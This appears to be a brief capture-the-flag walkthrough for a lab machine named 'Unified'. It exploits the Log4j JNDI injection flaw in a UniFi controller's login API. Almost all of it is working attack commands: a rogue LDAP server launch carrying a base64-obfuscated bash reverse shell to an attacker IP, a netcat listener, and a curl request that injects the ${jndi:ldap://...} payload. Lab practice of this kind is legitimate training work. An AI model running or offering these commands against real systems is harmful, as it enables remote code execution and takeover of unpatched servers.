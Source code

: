 # Unified

Reference: [https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

1. Start rogue-jdni LDAP server:&#x20;

```
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTI2LzIwMjIgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.126"
```

2\. Start Netcat server `nc -nlvp 2022`

3\. Send the curl command:&#x20;

```
curl -i -s -k -X POST -H $'Host: 10.129.30.84:8443' -H $'Content-Length: 100' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.15.126:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.30.84:8443/api/login'
```

